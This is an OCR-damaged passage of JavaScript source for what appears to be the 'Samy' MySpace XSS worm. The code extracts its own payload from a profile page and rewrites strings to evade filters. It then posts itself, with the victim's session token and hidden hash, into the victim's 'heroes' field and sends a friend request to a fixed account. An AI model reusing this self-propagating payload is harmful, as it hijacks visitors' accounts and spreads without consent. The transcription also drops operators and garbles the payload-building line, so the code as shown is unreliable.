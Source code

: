 ```javascript
}
var AA = g();
var AB = AA.indexOf('m'   'ycode');
var AC = AA.substring(AB, AB   4096);
var AD = AC.indexOf('D'   'IV');
var AE = AC.substring(0, AD);
var AF;
if (AE) {
	AE = AE.replace('jav'   'a', A   'jav'   'a');
	AE = AE.replace('exp'   'r)', 'exp'   'r)'   A);
	AF = ' but most of all, samy is my hero. <d'  ="" 'iv="" id="   AE   " d'="">'
}
var AG;

function getHome() {
	if (J.readyState != 4) {
		return
	}
	var AU = J.responseText;
	AG = findIn(AU, 'P'   'rofileHeroes', '');
	AG = AG.substring(61, AG.length);
	if (AG.indexOf('samy') == -1) {
		if (AF) {
			AG  = AF;
			var AR = getFromURL(AU, 'Mytoken');
			var AS = new Array();
			AS['interestLabel'] = 'heroes';
			AS['submit'] = 'Preview';
			AS['interest'] = AG;
			J = getXMLObj();
			httpSend('/index.cfm?fuseaction=profile.previewInterests&Mytoken='   AR, postHero, 'POST', paramsToString(AS))
		}
	}
}
function postHero() {
	if (J.readyState != 4) {
		return
	}
	var AU = J.responseText;
	var AR = getFromURL(AU, 'Mytoken');
	var AS = new Array();
	AS['interestLabel'] = 'heroes';
	AS['submit'] = 'Submit';
	AS['interest'] = AG;
	AS['hash'] = getHiddenParameter(AU, 'hash');
	httpSend('/index.cfm?fuseaction=profile.processInterests&Mytoken='   AR, nothing, 'POST', paramsToString(AS))
}
function main() {
	var AN = getClientFID();
	var BH = '/index.cfm?fuseaction=user.viewProfile&friendID='   AN   '&Mytoken='   L;
	J = getXMLObj();
	httpSend(BH, getHome, 'GET');
	xmlhttp2 = getXMLObj();
	httpSend2('/index.cfm?fuseaction=invite.addfriend_verify&friendID=11851658&Mytoken='   L, processxForm, 'GET')
}
function processxForm() {
	if (xmlhttp2.readyState != 4) {
		return
	}
	var AU = xmlhttp2.responseText;
```